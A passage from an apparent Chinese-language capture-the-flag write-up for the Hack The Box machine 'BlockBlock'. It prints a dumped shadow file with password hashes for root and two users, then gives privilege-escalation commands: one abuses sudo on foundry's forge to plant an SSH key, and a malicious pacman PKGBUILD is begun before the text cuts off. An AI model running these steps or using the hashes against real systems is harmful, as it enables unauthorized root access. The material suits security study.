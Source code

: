 ## More

### Dump Hash

```Plain Text
root:$y$j9T$aS1WjBeHOMsj5JDGpOSTR0$eEn9e2kIqFfcRCf79xQw7iLDJbt/ioE793tqS3GnjsC:19878::::::
bin:!*:19878::::::
daemon:!*:19878::::::
mail:!*:19878::::::
ftp:!*:19878::::::
http:!*:19878::::::
nobody:!*:19878::::::
dbus:!*:19878::::::
systemd-coredump:!*:19878::::::
systemd-network:!*:19878::::::
systemd-oom:!*:19878::::::
systemd-journal-remote:!*:19878::::::
systemd-resolve:!*:19878::::::
systemd-timesync:!*:19878::::::
tss:!*:19878::::::
uuidd:!*:19878::::::
polkitd:!*:19878::::::
avahi:!*:19878::::::
git:!*:19878::::::
keira:$y$j9T$XXkQ9ogGKlThyrI.mItx80$eMiwlviC0FB/bu5tWtoc.DpedzwUnOwETzmlPf6ZuC8:19878:0:99999:7:::
paul:$y$j9T$milm8la5tGGIhUazNYV3k.$lsAle1Ny3lNaIzStej/8qsKj/1wSgaoi15f/u5Ky/h9:19878:0:99999:7:::
dhcpcd:!*:20020::::::
_laurel:!:20038::::::
```

### 提权脚本

> 来自 [manesec](https://manesec.github.io/2024/11/23/2024-htb-machine/47-assets/0635-BlockBlock/) 的提权脚本

- Paul

```Plain Text
cd /tmp
ssh-keygen -t rsa -b 4096 -C "mane@manesec.com" -f ./key
sudo -u paul /home/paul/.foundry/bin/forge flatten /tmp/key.pub -o /home/paul/.ssh/authorized_keys
ssh -i key paul@127.0.0.1
```

- root

```Plain Text
cd ~
rm -rf mane
mkdir mane
cd mane 

sudo pacman -R mane --noconfirm

cat << EOF > PKGBUILD
pkgname=mane
pkgver=1.0.2
pkgrel=1
pkgdesc="sleep is good"
arch=('any')
url="http://example.com"
license=('GPL')
depends=()
makedepends=()
source=()
sha256sums=()
```